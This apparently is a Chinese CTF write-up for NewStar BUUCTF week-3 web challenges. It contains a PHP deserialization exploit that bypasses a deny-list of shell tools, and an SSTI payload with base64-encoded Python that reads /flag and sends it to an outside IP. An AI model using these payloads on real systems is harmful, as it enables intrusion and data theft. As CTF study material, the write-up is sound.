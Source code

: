 ## newstar BUUCTF weak3 R!!!C!!!E!!!


```php
<?php
highlight_file(__FILE__);
class minipop{
    public $code;
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            exec($this->code);
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}
if(isset($_POST['payload'])){
    //wanna try?
    unserialize($_POST['payload']);
} 
```

exp，利用`sed`替换`isset`为`system`，然后命令执行

```php
<?php

class minipop{
    public $code;
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            //exec($this->code);
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}
$a = new minipop;
$a->qwejaskdjnlka = new minipop;
$a->qwejaskdjnlka->code = 'l\s | xar\gs s\ed -i "s/isset/system/"';
    echo serialize($a);
var_dump(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $a->qwejaskdjnlka->code));
```

## newstar BUUCTF weak3 GenShin

响应包里面有提示路由`secr3tofpop`

```
payload:
http://5340cea9-ec26-458f-8a05-b0f5eb877cf7.node4.buuoj.cn:81/secr3tofpop
?name={% print(namespace["__%cnit__" % 105].__globals__.os.system("echo cHl0aG9uIC1jICJpbXBvcnQgcmVxdWVzdHM7IGltcG9ydCBvcztpbXBvcnQgYmFzZTY0O2ZsYWcgPSAgYmFzZTY0LmI2NGVuY29kZShvcy5wb3BlbignY2F0IC9mbGFnJykucmVhZCgpLmVuY29kZSgpKS5kZWNvZGUoKTtyZXNwb25zZSA9IHJlcXVlc3RzLmdldCgnaHR0cDovLzQzLjE0My4yMjIuMTYyOjgwODMvJytmbGFnKTsi| base64 -d | bash")) %}

在公网服务器开一个临时服务器，用于接受请求路径以获取flag
```

## newstar BUUCTF weak3 Include 🍐

[Docker PHP裸文件本地包含综述 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)

